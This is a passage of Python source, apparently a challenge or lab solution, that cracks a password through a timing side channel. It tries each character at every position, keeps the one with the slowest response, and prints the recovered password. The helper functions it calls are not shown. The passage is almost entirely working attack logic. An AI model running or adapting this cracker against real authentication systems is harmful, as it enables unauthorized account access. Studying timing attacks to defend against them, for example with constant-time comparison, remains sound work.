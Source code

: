 ```python
    
    for position in range(password_length):
        max_time = 0
        best_char = None
        
        for char in CHARSET:
            test_pwd = known + char + 'x' * (password_length - len(known) - 1)
            
            current_time = 0
            for _ in range(ATTEMPTS):
                elapsed = run_password_test(test_pwd)
                if elapsed > current_time:
                    current_time = elapsed
            
            print(f"Testing '{char}': {current_time:.4f}s")
            
            if current_time > max_time:
                max_time = current_time
                best_char = char
        
        expected_time = INITIAL_DELAY + (position + 1) * CHAR_DELAY
        if abs(max_time - expected_time) > TIMING_MARGIN:
            print(f"Warning: Position {position} timing anomaly ({max_time:.4f}s vs expected {expected_time:.4f}s)")
        
        known += best_char
        print(f"Progress: {known}")
    
    return known

if __name__ == "__main__":
    print("Starting password cracker...")
    print("Detecting password length...")
    password_length = detect_length()
    print(f"Password length detected: {password_length}")
    password = crack_password(password_length)
    print(f"\nPassword found: {password}")
```

